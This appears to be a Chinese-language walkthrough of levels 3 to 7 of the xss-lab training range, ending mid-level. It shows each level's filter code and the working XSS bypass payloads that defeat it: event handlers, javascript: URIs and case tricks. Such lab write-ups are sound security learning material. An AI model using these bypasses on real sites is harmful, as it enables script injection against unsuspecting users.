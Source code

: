 flags参数可用的引号类型

+ ENT_COMPAT ：默认仅编码双引号。
+ ENT_QUOTES：编码双引号和单引号。
+ ENT_NOQUOTES：不编码任何引号。
注：xss-lab中有些关卡可以利用单引号绕过是因为flags参数默认只编码双引号

double_encode参数布尔值

+ TRUE：默认，将对每个实体进行转换。
+ FALSE：不会对已存在的 HTML 实体进行编码。

这里靶场用的是`htmlspecialchars($str)`，尝试输入pyload，发现
`<h2 align=center>没有找到和&lt;script&gt;alert(1)&lt;/script&gt;相关的结果.</h2><center>`，然而，可以发现这里 value 的值用的是单引号。既然单引号不会被转义，我们可以闭合 value 这个字符串。

但是，`<>` 都会被转义，似乎不能闭合这个标签。有什么办法能够不用 `<script>` 标签来注入 JavaScript 代码呢？答案是使用触发器，比如 `onfocus` 或者 `onmouseover`。

`javascript:alert(1)` 使用了java伪协议，就是把`javascript:` 后面的代码当JavaScript来执行
` onmouseover=javascript:alert(1) `
` onfocus=javascript:alert(1) `

**level4**  
payload打进去，回显`<h2 align=center>没有找到和&lt;script&gt;alert(1)&lt;/scrpit&gt;相关的结果.</h2><center>`
把`<`给过滤了，双引号没过滤，把上一个代码改一下扔进去试试，合理
`" onmouseover=javascript:alert(1) "`

**level5**  
老规矩，输入payload，返回`<h2 align=center>没有找到和&lt;script&gt;alert(1)&lt;/scrpit&gt;相关的结果.</h2><center>`，
而且输入框中变成了`<scr_ipt>alert(1)</scrpit>`，
输入`">" onmouseover=javascript:alert(1) "`，发现变成`" o_nmouseover=javascript:alert(1) ""> `

正确思路是可以利用 JavaScript 的 URI
`<a href=javascript:alert(1)>hack</a>`

`<a>`标签后面的href不一定非要跟url，还可以是URI，可以视为 URL 的超集，后面跟`javascript`就可以执行后面的内容，`mailto`就会去打开邮件去发信息，所以可以借助这个运行js代码
`"> <a href=javascript:alert(1)>hack</a>`

**level6**  
尝试payload，发现变成`<scr_ipt>alert(1)</scrpit>`，尝试5的payload，发现变成`<a hr_ef=javascript:alert(1)>hack</a>">`，发现href被过滤了，课源码，

```
$str2=str_replace("<script","<scr_ipt",$str);
$str3=str_replace("on","o_n",$str2);
$str4=str_replace("src","sr_c",$str3);
$str5=str_replace("data","da_ta",$str4);
$str6=str_replace("href","hr_ef",$str5);
```

发现过滤了五个东西，可以利用html的特性，HREF和href的效果是一样的，大小写不会区分
`"> <a HREF=javascript:alert(1)>hack</a>`

**level7**  
尝试输入payload，发现回显`<>alert(1)</scrpit>`，整个被替换为空了，那么6的payload当然不能使用了，看题目源码
```
$str2=str_replace("script","",$str);
$str3=str_replace("on","",$str2);
$str4=str_replace("src","",$str3);
$str5=str_replace("data","",$str4);
$str6=str_replace("href","",$str5);
```
